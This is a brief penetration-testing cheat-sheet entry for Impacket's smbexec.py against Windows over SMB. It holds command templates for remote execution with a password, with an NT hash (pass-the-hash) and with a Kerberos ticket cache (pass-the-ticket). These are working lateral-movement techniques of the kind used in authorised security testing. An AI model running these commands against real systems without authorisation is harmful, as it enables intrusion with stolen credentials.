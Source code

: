 # smbexec (imp)

%  windows, impacket-exec, smb


## username
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py '<domain>/<user>:<password>'@<ip>
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
create a new service 'BTOBTO' (using temp bat files via SMB)
```
smbexec.py -hashes :<nt_hash> <domain>/<user>@<ip>
```

## ptt
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
```
export KRB5CCNAME=<ccache>; smbexec.py -dc-ip <dc_ip> -target-ip <ip> -no-pass -k <domain>/<user>@<target_name>
```
